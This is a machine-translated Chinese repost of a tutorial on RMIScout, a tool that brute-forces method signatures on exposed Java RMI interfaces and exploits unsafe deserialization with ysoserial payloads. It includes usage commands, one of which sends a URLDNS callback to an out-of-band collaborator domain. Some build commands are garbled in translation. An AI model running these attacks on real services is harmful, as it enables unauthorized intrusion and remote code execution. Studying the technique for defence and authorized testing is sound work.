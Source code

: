 # RMIScout:针对暴露的 Java RMI 接口的暴力攻击

> 原文：<https://kalilinuxtutorials.com/rmiscout/>

[![RMIScout : Bruteforce Attacks Against Exposed Java RMI Interfaces](img/b0e64841a2973653f5072d9d063e7636.png "RMIScout : Bruteforce Attacks Against Exposed Java RMI Interfaces")](https://1.bp.blogspot.com/-AiuDSPkEFTw/XvOrE839z1I/AAAAAAAAGtI/gUVrQ8xjr5Y1s4Yah_98tTp4BXToJNpvQCLcBGAsYHQ/s1600/RMIScout%25281%2529.png)

RMIScout 对暴露的 Java RMI 接口执行单词列表和暴力攻击，以在不调用的情况下安全地猜测方法签名。

在错误配置的服务器上，任何已知的使用非原始类型的 RMI 签名(例如，`**java.lang.String**`)都可以通过用序列化的有效负载替换对象来利用。

这是一种相当常见的错误配置(例如，VMWare VSP here Data Protection+v realize Operations Manager、Pivotal tc Server 和 Gemfire、Apache Karaf + Cassandra)，正如在 [An Trinh 的 2019 Blackhat EU talk](https://i.blackhat.com/eu-19/Wednesday/eu-19-An-Far-Sides-Of-Java-Remote-Protocols.pdf) 中所强调的。

RMIScout 与 [ysoserial](https://github.com/frohoff/ysoserial/) 和 [GadgetProbe](https://github.com/bishopfox/gadgetprobe) 集成，对错误配置进程级序列化过滤器的服务进行反序列化攻击( [JEP 290](https://openjdk.java.net/jeps/290) )。

![](img/45d383e000b1174e1395b23e878251ea.png)

**动机**

我需要一个工具来完成以下任务:

1.  提供单词列表和基于文本的强制策略，而不是强制 64 位方法哈希。
2.  识别 RMI 方法而不调用它们。
3.  提供一种简单的方法来利用已知的不安全 RMI 参数解组问题，并与 ysoserial 或实现 **`ysoserial.payloads.ObjectPayload`的有效负载集成。**
4.  集成 GadgetProbe 来识别远程类，以帮助识别相关软件和构造小工具链。

为了开始你的搜索，包含的`**lists/prototypes.txt**`单词表是从 GitHub 的 OSS 项目中发现的 15，000 个 RMI 原型中删除重复的单词表。随时提交一份公关，包括更多🙂

它是如何工作的？

为了识别但不执行 RMI 函数，RMIScout 使用低级 RMI 网络函数和动态类生成来发送故意不匹配类型的 RMI 调用，以触发远程异常。所有参数都替换为动态生成的可序列化类，该类具有 255 个字符的名称，假定在远程类路径中不存在。例如:

远程接口:

**作废登录(字符串用户，字符串密码)**

RMIScout 将调用:

**登录((字符串)新 QQkzkn3)..255 个字符..()，(String)新 Qkzkn3..255 个字符..())**

如果该类存在，这将导致由`ClassNotFoundException`或参数解组错误引起的远程`java.rmi.UnmarshalException`，而不会调用底层方法。

点击阅读[完整的技术文章。](https://know.bishopfox.com/research/rmiscout)

**用途**

```
# Perform wordlist-attack against remote RMI service using wordlist of function prototypes
./rmiscout.sh wordlist -i lists/prototypes.txt <host> <port>

# Bruteforce using method wordlist and other options
./rmiscout.sh bruteforce -i lists/methods.txt -r void,boolean,long -p String,int -l 1,4 <host> <port>

# Swap object-derived types with the specified ysoserial payload and payload parameter
./rmiscout.sh exploit -s 'void vulnSignature(java.lang.String a, int b)' -p ysoserial.payloads.URLDNS -c "http://examplesubdomain.burpcollaborator.net" -n registryName <host> <port>

# Use GadgetProbe and a known signature to bruteforce classes on the remote classpath
./rmiscout.sh probe -s 'void vulnSignature(java.lang.String a, int b)' -i ../GadgetProbe/wordlists/maven_popular.list -d "examplesubdomain.burpcollaborator.net" -n registryName <host> <port> 
```

**建筑&运行**

使用附带的`**rmiscout.sh**`脚本自动构建项目，并作为`**java -jar**`语法的方便包装:

**。/RMI scout . sh word list-I lists/prototypes . txt<主机> <端口>**

或者，手动构建项目并使用传统的`java -jar`语法:

**#手动建立罐子**
。/grad Lew shadow jar

Java-jar build/libs/RMI scout-1.01-SNAPSHOT-all . jar wordlist-I lists/prototypes . txt<host><port>

**尝试一下**

运行演示 RMI 服务器。试用收录的 **`demo/wordlist.txt`。**

**cd 演示
。/start.sh**

[**Download**](https://github.com/BishopFox/rmiscout)